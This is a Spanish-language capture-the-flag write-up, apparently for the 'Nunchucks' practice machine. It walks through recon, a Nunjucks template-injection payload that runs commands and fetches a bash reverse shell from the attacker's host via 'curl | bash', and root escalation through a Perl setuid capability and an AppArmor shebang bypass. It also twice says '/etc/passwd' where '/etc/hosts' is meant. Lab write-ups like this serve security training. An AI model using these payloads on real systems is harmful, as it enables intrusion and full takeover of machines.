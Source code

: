 ## Summary

Tags: #Linux #HTTPS #Fuzzing #SSTI #Capabilities 

- IP -> 10.10.11.122
- Ports -> TCP (22,80,443), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 4ubuntu0.3
    - 80 -> HTTP nginx 1.18.0
    - 443 -> HTTPS nginx 1.18.0

## Recon
Launchpad 4ubuntu0.3 -> Bionic
Launchpad nginx 1.18.0 -> Hirsuite 
Dentro de la maquina lo podremos averiguar 

❯ **nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.122  -oG allPorts**
❯ **nmap -sCV -p22,80 10.10.11.122 -oN targeted**

❯ **whatweb \http://10.10.11.122**  -> Nos dara una breve descripcion del gestor de contenidos del puerto 80
* Nos manda u re-direct, por lo tanto vamos a agregar la url **nunchucks.htb** a nuestro /etc/passwd 

❯ **openssl s_client -connect 10.10.11.122:443** Para conectarnos al openssl e inspeccionar el certificado del puerto 443

Ahora nos disponemos a ver la paginas web en el navegador 
En el Wapalyzer podemos ver en 
* Lenguaje de programacion: **Node.js**

Encontramos un **Log in** pero no nos podemos loggear ni registrarnos
Ahora hacemos Fuzzing para buscar subdominios
❯ **gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --url \https://nunchucks.htb -t 200** **-k** 
* Nos descubre un subdominio **store.nunchucks.htb**

❯ **wfuzz -c --hc=404 --hh=30587 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H “Host: FUZZ.nunchucks.htb” \https://nunchucks.htb**

Despues agregamos ese dominio a nuestro **/etc/passwd** y lo miramos en el navegador web

Nos pide que ingresemos un email, al momento de hacerlo vemos que nos devuleve el email en la pantalla de la pagina web.
Por lo que estamos frente a un **Server Side Template Injection** en node.js, por lo que procedemos a buscar en **Google** (**node.js** **nunjunks** **ssti** **(https://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)**) el cual nos dara ejemplos de como usar esa vulnerabilidad.

Encontramos estos comando para poder introducisrlos en la pagina web.
{{7*7}}@test.com Si nos muestra la respuesta en este caso 49, estamos ante un SSTI, colocamos el @test.com por que es un requisito de que lo que entra es un correo electronico.

Ahora en la misma pagina de nunjunks nos dice que comando podemos colocar para poder injectar un comando
❯ **{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}@test.com**
* Tail -> Es para leer las ultimas 10 lineas de un archivo
Como esa entrada no se adecua a lo que nos indica que es de un correo, nos disponemos a abrir BurpSuite y desde ahi lo haremos 

❯ **burpsuite &> /dev/null &** Iniciamos el BurpSuite y lo mandamos a segundo plano
❯ **disown** Para independizar el proceso del BurpSuite
Lo que interceptemos lo mandamos al Repeater:
❯ **Ctrl + r** Para mandar lo del proxy al repeater

Esto lo colocaremos en el campo donde esta email, ademas debemos de escapar las comillas dobles internas
“**email”:”{{range.constructor(\\"return global.process.mainModule.require('child_process').execSync('whoami')\\")()}}@test.com”**
Nos muestra el **whoami** de la maquina victima 

Como podemos ejecutar comandos, primero verificamos si podemos hacernos una peticion con **Curl** si es asi enconces podriamos hacernos una ReverShell para poder ganar acceso al sistema

❯ **python3 -m http.server 80** Nos montamos un servidor http 80
“**email”:”{{range.constructor(\\"return global.process.mainModule.require('child_process').execSync('curl 10.10.14.2')\\")()}}@test.com”** Hacemos una peticion GET desde el servidor web

Lo que trata de hacer la maquina al momento de ejecutar el **Curl** es tratar de obtener un **index.html** del servidor web. Por lo que nos disponemos a hacer un archivo que contenga una ReverShell y asi con Netcat podemos ganar acceso al sistema 

❯ **nano index.html**
	**#!/bin/bash**
	**bash -i >& /dev/tcp/10.10.14.2/443 0>&1**


## User
❯ **python3 -m http.server 80** Nos montamos un servidor http 80
❯ **nc -nlvp 443** Para ponernos en escucha por Netcat en espera de la revershell para Linux
“**email”:”{{range.constructor(\\"return global.process.mainModule.require('child_process').execSync('curl 10.10.14.2 | bash')\\")()}}@test.com”** Hacemos una peticion GET desde el servidor web para obtener el index.html malicioso y despues hacer que nos lo interprete con Bash

* Hacemos el tratamiento de la consola y buscamos la primer flag -> user.txt

❯ **lsb_release -a** Miramos algunas caracteristicas de la maquina Linux 
❯ **hostname -I** Nos muestra solo la direccion IP (I=i mayuscula)


## Root
❯ **uname -a** Miramos informacion del Kernel
❯ **find / -perm -4000 2>/dev/null** Buscaremos por privilegios suid
❯ **id** Para ver si estamos en un grupo especial

❯ **which getcap** Para ver si esta instalado el Getcap y mirar las capabilities
❯ **getcap -r / 2>/dev/null** Listamos las capabilities que existan desde la raiz de forma recursiva y buscamos el comando aqui GTFOBins [GTFOBins](https://gtfobins.github.io/)
* **/usr/bin/perl = cap_setuid+ep** Esta capabilitie nos permite gestionar el UID
	❯ **setcap cap_setuid+ep /usr/bin/perl** 
	❯ **perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'** Para conseguir la consola interactiva

Pero esto no funciona por lo que buscamos **Apparmor** que es modulo de seguridad del Kernel Linux que permite al administrador del sistema restringir las capabilities de un programa.

❯ **find \-name \*apparmor\* 2>/dev/null** | grep -vE “proc|var|share”** (vE=quitas multiples palabras)

Ahi buscamos
❯ **/etc/apparmor.d** y nos dirigimos a esa ruta con el comando cd. 

Miramos el siguiente archivo 
❯**cat usr.bin.perl** para ver el contenido del archivo y dentro hay un archivo que esta ejecutando un script en perl. 
Por lo que miramos su contenido **/opt/backup.pl**

Despues probamos el siguiente comando
❯ **perl /opt/backup.pl** Este comando solo se puede ejecutar y leer pero no podemos modificarlo, por lo que debemos de buscar un bug para poder entrar.

Buscamos en **Google (apparmor perl bugs)** y nos vamos a la siguiente pagina **bugs.launchpad.net**.
**Shebang** es el nombre que recibe el par de caracteres #! que se encuentran en el inicio de los programas ejecutables interpretados

❯ **cd /tmp/** Nos vamos al directorio tmp ya ahi tenemos ejecucion y lectura 

❯ **touch prueba.sh** Creamos el archivo y nos ayudara a tener una consola interactiva 
	#!/usr/bin/perl
	**use POSIX qw(setuid);**
	**POSIX::setuid(0);**
	**exec "****/bin/sh";

❯ **chmod** **+x prueba.sh** la ejecucion
❯ **./prueba.sh** Ejecutamos el comando anterior.

Despues de ser root nos vamos al directorio con **cd /root/** y obtenemos la flag root.txt




